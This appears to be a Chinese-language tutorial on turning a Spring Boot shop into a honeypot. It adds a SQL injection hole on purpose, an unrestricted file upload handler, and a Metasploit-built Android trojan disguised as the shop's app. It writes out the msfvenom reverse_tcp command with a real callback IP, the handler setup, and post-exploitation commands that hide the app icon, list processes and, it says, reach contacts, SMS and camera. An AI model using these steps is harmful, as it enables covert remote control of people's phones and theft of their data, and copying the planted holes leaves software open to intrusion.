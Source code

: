 

# 在Springboot中添加漏洞和app木马

## 添加sql注入

首先介绍下${}和#{}的区别

#
1.#是预编译处理(是什么)
2.mybatis在处理#的时候,会将sql中的#{}替换为?号,调用预编译语句(PreparedStatement)中的set注入参数(这也是为什么变成问号的原因)
3.会在sql中加上' '单引号,所以会相对安全,不会有sql注入问题
4.支持基本数据类型(八大数据类型,包装类,BigDecimal等等)
$
1.$是字符串替换(是什么)
2.mybatis在处理$的时候,会将$的变量,原原本本的赋值到sql里面
3.直接作为SQL本身,不会加单引号,所以有sql注入问题

添加sql注入，用${}

![image-20210705152642037](https://tva1.sinaimg.cn/large/008i3skNly1gs63sot1h0j31ie0h8gp1.jpg)

这样我们在输入账号密码的时候就可以sql注入了，账户名用的'admin',密码输入的'1' or 1=1 -'' 

![image-20210706141741696](https://tva1.sinaimg.cn/large/008i3skNly1gs77f9gvktj32a20iw787.jpg)

成功登陆

![image-20210706141904510](https://tva1.sinaimg.cn/large/008i3skNly1gs77gmoa3fj32ai0u0adk.jpg)

## 文件上传漏洞

在上传商品的图片页面加入文件上传漏洞

![image-20210707151411500](https://tva1.sinaimg.cn/large/008i3skNly1gs8eob8v9hj31e10u0wi2.jpg)

```java
public String addGoods(Goods goods, HttpServletRequest request, String act) throws IllegalStateException, IOException {
		MultipartFile myfile = goods.getFileName();
		//如果选择了上传文件，将文件上传到指定的目录images
		if(!myfile.isEmpty()) {
			String path = "/honeypot";
			String fileName = myfile.getOriginalFilename();
			//对文件重命名
			String fileNewName = MyUtil.getNewFileName(fileName);
			File filePath = new File(path + File.separator + fileNewName);
			//如果文件目录不存在，创建目录
			if(!filePath.getParentFile().exists()) {
				filePath.getParentFile().mkdirs();
			}
			//将上传文件保存到一个目标文件中
			myfile.transferTo(filePath);
			System.out.println(filePath);
			//将重命名后的图片名存到goods对象中，添加时使用
			goods.setGpicture(fileNewName);
		}
		if("add".equals(act)) {
			int n = goodsRepository.addGoods(goods);
			if(n > 0)//成功
				return "redirect:/goods/selectAllGoodsByPage?currentPage=1&act=select";
			//失败
			return "admin/addGoods";
		}else {//修改
			int n = goodsRepository.updateGoods(goods);
			if(n > 0)//成功
				return "redirect:/goods/selectAllGoodsByPage?currentPage=1&act=updateSelect";
			//失败
			return "admin/UpdateAGoods";
		}
	}
```

因为文件上传漏洞的风险非常大，会直接把我的服务器干掉，所以最后得留一手，那就是将攻击者上传的文件放到一个隐藏目录下，这样它即使上传成功，功能再强大，也是没有用的，相当于我们在前端页面欺骗了他上传的路径，我们真正上传到的目录是服务器中的/honeypot/files文件夹，当攻击者上传后会骗他上传的路径是images下的，images下的这个上传的apk是不存在的

![image-20210707151936809](https://tva1.sinaimg.cn/large/008i3skNly1gs8etxq6zhj31c80e6dia.jpg)

然后我们去/honeypot/files中就可以逆向分析他的木马文件了，拿一个metasploit生成的apk木马举例

![image-20210707152402843](https://tva1.sinaimg.cn/large/008i3skNly1gs8eyk8hm1j31c00u0160.jpg)

## 添加APP木马

通过metasploit生成apk木马文件

`msfvenom -p android/meterpreter/reverse_tcp lhost=111.230.196.27 lport=10013 R > ./鹰讯.apk`

![image-20210707154516613](https://tva1.sinaimg.cn/large/008i3skNly1gs8fkmjzqjj319i0e2gpj.jpg)

开启隧道

![image-20210707154554287](https://tva1.sinaimg.cn/large/008i3skNly1gs8flaai0uj319a0f8425.jpg)

将apk木马上传到蜜罐上

添加下载apk功能

 将apk文件放置在resources/static文件夹下的apk包中

![img](https://tva1.sinaimg.cn/large/008i3skNly1gs9hqkw9ydj318k0ag75x.jpg) 

 

在前端页面添加下载App超连接标签，添加相对路径的下载地址和Download属性，实现在前端点击相应的超链接即可下载商城的apk文件

![img](https://tva1.sinaimg.cn/large/008i3skNly1gs9hqlto4dj31a80480we.jpg) 

 

下载App功能添加展示：

![img](https://tva1.sinaimg.cn/large/008i3skNly1gs9hqmawhyj31a803cmxp.jpg) 

功能实现：

![img](https://tva1.sinaimg.cn/large/008i3skNly1gs9hqn9m61j30p8098tak.jpg) 

 

## 演示反攻

show payloads可以看到所有能利用的payloads

![image-20210707154924605](https://tva1.sinaimg.cn/large/008i3skNly1gs8foxmc0dj31c00u04c5.jpg)

然后我们选择android/meterpreter/reverse_tcp（用于执行安卓指令的木马payload）

`set payload android/meterpreter/reverse_tcp`

设置监听端口

`set lhost 127.0.0.1`

`set lport 654`

然后exploit等待攻击者上钩

![image-20210707155211302](https://tva1.sinaimg.cn/large/008i3skNly1gs8fru5o0fj31qh0u0tf3.jpg)

模拟器打开apk后已经连上

![image-20210707160704456](https://tva1.sinaimg.cn/large/008i3skNly1gs8g7b3ec8j31s80dutbj.jpg)

`sysinfo`可以看到输出了攻击者的手机信息

![image-20210707161310056](https://tva1.sinaimg.cn/large/008i3skNly1gs8gdnglsrj30yq07oq3z.jpg)

对方在手机上能看到安装的app

![image-20210707160914815](https://tva1.sinaimg.cn/large/008i3skNly1gs8g9mekutj31ds0qi1kx.jpg)

我们为了更隐蔽，使用命令`hide_app_icon`隐藏app

![image-20210707161241755](https://tva1.sinaimg.cn/large/008i3skNly1gs8gd627yej61cc0qw1kx02.jpg)

我们还可以ps查看当前运行的进程

![image-20210707161348938](https://tva1.sinaimg.cn/large/008i3skNly1gs8geca8hvj31c00u048h.jpg)

![image-20210707161414978](https://tva1.sinaimg.cn/large/008i3skNly1gs8ges4thbj31c00u0wsg.jpg)

之后还可以获取攻击者的通讯录，短信、摄像头等

